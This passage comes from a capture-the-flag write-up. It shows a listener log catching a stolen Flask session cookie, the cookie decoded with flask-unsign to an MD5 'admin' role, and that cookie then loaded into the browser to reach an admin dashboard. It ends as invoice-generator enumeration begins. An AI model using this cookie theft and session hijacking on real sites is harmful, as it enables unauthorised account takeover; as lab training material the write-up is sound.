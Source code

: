 And there’s a connection with the cookie:

```
10.10.11.12 - - [12/Jul/2024 23:01:07] code 404, message File not found
10.10.11.12 - - [12/Jul/2024 23:01:07] "GET /service HTTP/1.1" 404 -
10.10.11.12 - - [12/Jul/2024 23:01:08] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZpGnpw.yZMEmiZOTLiezgsFo846uaB6bVY HTTP/1.1" 200 -

```

That cookie looks like a JWT or Flask cookie, and given that site is likely running Flask, that fits:

```

oxdf@hacky$ flask-unsign -d -c eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZpGnpw.yZMEmiZOTLiezgsFo846uaB6bVY
{'role': '21232f297a57a5a743894a0e4a801fc3'}

```

The cookie kind of looks like an MD5 hash, and in fact it is the hash of “admin”:

```

oxdf@hacky$ echo -n "admin" | md5sum
21232f297a57a5a743894a0e4a801fc3  -

```

I’ll set the cookie into my Firefox dev tools:

![image-20240712230517838](/img/image-20240712230517838.png)

And `/dashboard` loads:

![image-20240712230540276](/img/image-20240712230540276.png)

### Dashboard Enumeration

The dashboard links to four new pages. This website doesn’t really make sense from a usability point of view, and behaves oddly, which made it hard to evaluate for vulnerabilities. Still, just playing with it a bit the intended path does jump out.

#### Generate Invoice

`/InvoiceGenerator` has a form with some basic information:

![image-20240713080632654](/img/image-20240713080632654.png)

I’ll fill it out:

![image-20240713080709684](/img/image-20240713080709684.png)

When I hit Generate, it just returns an ID:

![image-20240713081202157](/img/image-20240713081202157.png)
